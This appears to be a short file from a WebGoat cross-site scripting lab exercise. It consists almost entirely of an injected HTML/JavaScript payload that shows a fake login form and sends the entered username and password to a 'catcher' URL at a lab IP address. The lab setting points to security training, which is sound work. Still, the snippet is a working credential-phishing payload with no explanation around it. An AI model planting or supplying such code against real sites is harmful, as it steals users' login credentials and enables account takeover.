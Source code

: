 # sungshin
<script> 
function login() { 
var xssImg = new Image; 
xssImg.src = 'http://192.168.184.130:8080/WebGoat/catcher?PROPERTY=yes&user=' + this.form.username.value + '&password=' + this.form.password.value; 
alert('username = ' + this.form.username.value + ' password = ' + this.form.password.value); 
} 

</script> 
Login <br>Username : <input type="text" name="username"><br> Password : <input type="password" name="password"><br><input type="submit" value="login" onclick=login()> 

